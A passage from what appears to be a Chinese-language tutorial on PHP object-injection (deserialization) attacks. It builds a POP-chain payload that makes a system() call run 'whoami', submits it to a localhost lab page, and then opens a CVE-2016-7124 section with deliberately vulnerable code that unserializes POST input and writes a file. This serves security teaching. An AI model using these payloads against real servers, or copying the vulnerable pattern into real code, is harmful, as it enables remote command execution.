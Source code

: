 我们分析下代码，可以发现一下几点
1. 反序列化参数可控
2. 存在魔术方法__construct()，这里不可以直接利用
3. __construct()调用了myfunction(),myfunction()不可以利用
4. 其他类存在同名函数myfunction()，且另外一个类里面的Myfunction不可以单独被利用，但是存在可被利用的函数`system()`
构造payload

```php
<?php
/**
 * 
 * @authors daiker (daikersec@gmail.com)
 * @date    2017-12-22 20:26:02
 * @version $Id$
 */
class Another{
    var $cmd;
    function __construct(){
        $this->cmd = "whoami";
    }//跟直接写 var $cmd = "whoami'，不写__construct一样，这里演示还有这种写法
}
class ClassName  {
    var $class ;
    function __construct(){
        $this->class=new Another();
    }
}
echo serialize(new ClassName());
```

然后提交
`
http://127.0.0.1/php-obj/pop.php?daiker=O:9:%22ClassName%22:1:{s:5:%22class%22;O:7:%22Another%22:1:{s:3:%22cmd%22;s:6:%22whoami%22;}}
`
## 0x06 CVE-2016-7124
我们看一个代码
```php
<?php
 class object{ 
		public $var = "hello,world";
  
        function get_flag(){  
            return 'aaaa';  
        }
		function __wakeup(){
			$this->var = "hello,wold";
		}
		function __destruct(){
			$fp=fopen("F:\\phpStudy\\WWW\\unse\\hello.php","w");
			fputs($fp,$this->var);
			fclose($fp);
		}
 }
 
$content = $_POST['content'];
$object = unserialize($content);
?>

```

